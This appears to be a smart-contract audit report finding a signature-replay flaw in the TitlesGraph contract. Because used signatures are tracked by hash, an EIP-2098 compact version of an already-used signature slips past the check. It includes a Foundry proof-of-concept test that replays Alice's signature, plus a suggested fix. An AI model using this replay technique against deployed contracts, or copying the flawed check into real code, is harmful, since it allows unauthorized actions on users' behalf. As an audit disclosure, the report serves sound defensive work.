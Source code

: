 Precise Carmine Carp

medium

# `TitlesGraph` signatures are replayable because of a compact signature vulnerability

## Summary
The [TitlesGraph](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol) contract is vulnerable to `compact signature replayability`. Because of this, any party can execute an already used signature for a second time.

## Vulnerability Detail
Ethereum signatures are 65 bytes long and consist of (r, s, v). [EIP-2098](https://eips.ethereum.org/EIPS/eip-2098) introduces the idea of compact signatures, where the signatures become 64 bytes long instead and are in the form `(r, v, s)`, where the first byte of the original `s` value is cut because it's always zero. `TitlesGraph` uses [SignatureCheckerLib](https://github.com/Vectorized/solady/blob/91d5f64b39a4d20a3ce1b5e985103b8ea4dc1cfc/src/utils/SignatureCheckerLib.sol) which supports both normal and compact signatures. 

The `TitlesGraph` contract hashes a signature and records it in the `_isUsed` mapping to ensure the same signature cannot be used twice. However, anyone can pass the compact version of the signature and bypass this check, because the resulting hash will be different from what is saved in the mapping.
```solidity
    modifier checkSignature(bytes32 edgeId, bytes calldata data, bytes calldata signature) {
        bytes32 digest = _hashTypedData(keccak256(abi.encode(ACK_TYPEHASH, edgeId, data)));
        if (
            !edges[edgeId].to.creator.target.isValidSignatureNowCalldata(digest, signature)
                || _isUsed[keccak256(signature)]
        ) {
            revert Unauthorized();
        }
        _;
        _isUsed[keccak256(signature)] = true;
    }
```

Here is a coded PoC in Foundry that demonstrates how an user (Alice) acknowledges an edge via signature. After that Alice changes her mind and unacknowledges the edge. Since the contract accepts compact signatures, anyone can use it to acknowledge the edge again.

*NOTE:* For simplicity, the following function has to be added to [TitlesGraph](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol) before running the PoC.
```solidity
    function hashTypedData(bytes32 structHash) public view virtual returns (bytes32 digest) {
        return _hashTypedData(structHash);
    }
```

The actual test to be run in [TitlesCore.t.sol](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/test/TitlesCore.t.sol)
```solidity
    function test_short_signature_vulnerability() public {
        bytes32 ACK_TYPEHASH = keccak256("Ack(bytes32 edgeId,bytes data)");
        (address alice, uint256 alicePk) = makeAddrAndKey("alice");

        Node memory fromNode = Node({
            nodeType: NodeType.COLLECTION_ERC1155,
            entity: Target({target: address(this), chainId: block.chainid}),
            creator: Target({target: address(2), chainId: block.chainid}),
            data: ""
        });

        Node memory toNode = Node({
            nodeType: NodeType.TOKEN_ERC1155,
            entity: Target({target: address(3), chainId: block.chainid}),
            creator: Target({target: alice, chainId: block.chainid}),
            data: bytes(
                hex"000000000000000000000000000000000000000000000000000000000000002a"
            )
        });

        Edge memory edge = titlesGraph.createEdge(fromNode, toNode, "");

        bytes32 edgeId = keccak256(abi.encode(fromNode, toNode));
        bytes memory data = hex"";
        bytes32 digest = titlesGraph.hashTypedData(
            keccak256(abi.encode(ACK_TYPEHASH, edgeId, data))
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alicePk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        edge = titlesGraph.acknowledgeEdge(edgeId, data, signature);
        assertTrue(edge.acknowledged);

        vm.prank(alice);
        edge = titlesGraph.unacknowledgeEdge(edgeId, data);
        assertFalse(edge.acknowledged);

        // Ideally, the first byte of s has to be cut, but it works for this case, because the v value is 27
        signature = abi.encodePacked(r, s);

        // Anyone can use the compact version of the signature to use it again
        edge = titlesGraph.acknowledgeEdge(edgeId, data, signature);
        assertTrue(edge.acknowledged);
    }
```

## Impact
For each valid signature, there exists a valid compact signature that anyone can use to replay the original signature.

## Code Snippet
```solidity
                if eq(mload(signature), 64) {
                    let vs := mload(add(signature, 0x40))
                    mstore(0x20, add(shr(255, vs), 27)) // `v`.
                    mstore(0x60, shr(1, shl(1, vs))) // `s`.
                    let t :=
                        staticcall(
                            gas(), // Amount of gas left for the transaction.
                            1, // Address of `ecrecover`.
                            0x00, // Start of input.
                            0x80, // Size of input.
                            0x01, // Start of output.
                            0x20 // Size of output.
                        )
                    // `returndatasize()` will be `0x20` upon success, and `0x00` otherwise.
                    if iszero(or(iszero(returndatasize()), xor(signer, mload(t)))) {
                        isValid := 1
                        mstore(0x60, 0) // Restore the zero slot.
                        mstore(0x40, m) // Restore the free memory pointer.
                        break
                    }
                }
```
https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/graph/TitlesGraph.sol#L40C1-L50C6
https://github.com/Vectorized/solady/blob/91d5f64b39a4d20a3ce1b5e985103b8ea4dc1cfc/src/utils/SignatureCheckerLib.sol#L44-L64
## Tool used

Foundry

## Recommendation
A possible solution may be the following change in the hashing step:
  1. Check if the signature is 64 bytes long and if so, just hash it.
  2. If the signature is 65 bytes long, convert to a compact one and hash it instead of the original one.

